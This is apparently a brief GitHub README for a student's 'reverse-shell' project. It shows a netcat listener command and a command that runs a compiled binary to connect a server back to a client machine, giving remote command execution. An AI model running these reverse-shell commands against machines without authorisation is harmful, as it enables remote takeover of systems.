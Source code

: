 # reverse-shell
This is our CCDAD soltion ,coded by me to make a reverse shell between the cuda server machine at the administration and the local clients hosts !

<img src="https://themitigators.com/wp-content/uploads/2018/10/Reverse-Shell-illustration.png">

1 ) open a netcat server from you local client machine :

`nc -ntlp 5566`

2 ) make a connection from the server-host ,, when i compiled my "rev.c" file , i took in parameter 2 args ! [server addr & the port to bind the connection] :

`./rev @your_machine_ip 5566`

3 ) run any command from the client machine and the result will be executed from the server very quickly ,  enjoy the result ! 

<img src="https://i.ibb.co/4mp69CH/image.png" alt="image" border="0" align="center"> 
